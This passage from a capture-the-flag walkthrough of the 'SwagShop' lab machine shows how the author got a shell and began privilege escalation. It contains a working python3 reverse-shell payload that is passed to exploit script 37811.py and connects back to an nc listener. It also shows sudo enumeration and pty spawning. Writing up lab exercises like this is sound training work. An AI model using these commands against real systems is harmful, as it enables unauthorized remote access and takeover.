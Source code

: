 
## PART 4 : GENERATE A SHELL

1. Set-up a listener:
   ```console
   $ nc -lvp 4444
     listening on [any] 4444 ...
   ```
2. Run a __python__ reverse shell using __`37811.py`__:
   ```console
   $ ifconfig
     tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
             inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
             ...omitted...                
   $ python 37811.py http://10.10.10.140/index.php/admin "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.16\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
   ```
   > There seems to be no __`python2`__ inside the box but at least, there is __`python3`__.

3. Going back to the listener:
   ```console
     10.10.10.140: inverse host lookup failed: Unknown host
     connect to [10.10.14.16] from (UNKNOWN) [10.10.10.140] 40060
     /bin/sh: 0: can't access tty; job control turned off

   $ uname -nopr
     swagshop 4.4.0-146-generic x86_64 GNU/Linux

   $ id 
     uid=33(www-data) gid=33(www-data) groups=33(www-data)

   $ python -h
     /bin/sh: 9: python: not found
   ```

---

## PART 5 : PRIVILEGE ESCALATION (www-data -> root)

1. Check for commands that could be executed with __`sudo`__:
   ```console
   $ sudo -l
     Matching Defaults entries for www-data on swagshop:
         env_reset, mail_badpass,
         secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
     
     User www-data may run the following commands on swagshop:
         (root) NOPASSWD: /usr/bin/vi /var/www/html/*
   ```

2. Run __`python3`__'s __pty__ module:
   ```console
   $ python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
